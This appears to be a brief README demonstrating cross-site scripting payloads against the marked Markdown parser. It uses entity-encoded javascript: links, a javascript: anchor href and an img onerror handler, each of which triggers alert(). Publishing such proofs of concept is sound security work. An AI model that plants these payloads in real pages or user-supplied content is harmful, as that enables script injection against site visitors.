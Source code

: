 # marked-expoit
Find expoit in marked trough README.md

This is a [A funny link](javascript&#x58document;alert&#40;1&#41);

I can try to use some <a href="javascript&#x58document;alert&#40;1&#41">HTML IN HERE AS WELL</a>


<img onerror="&#x58document;alert&#40;1&#41" src="foo.gif" />


If a malicious user could provide this input to the application javascript&#x58document;alert&#40;1&#41; resulting in a valid link, that when a user clicked it would execute alert(1).

[try me](javascript&#x58document;alert&#40;1&#41;)

[also try me](javascript:alert('boo'))
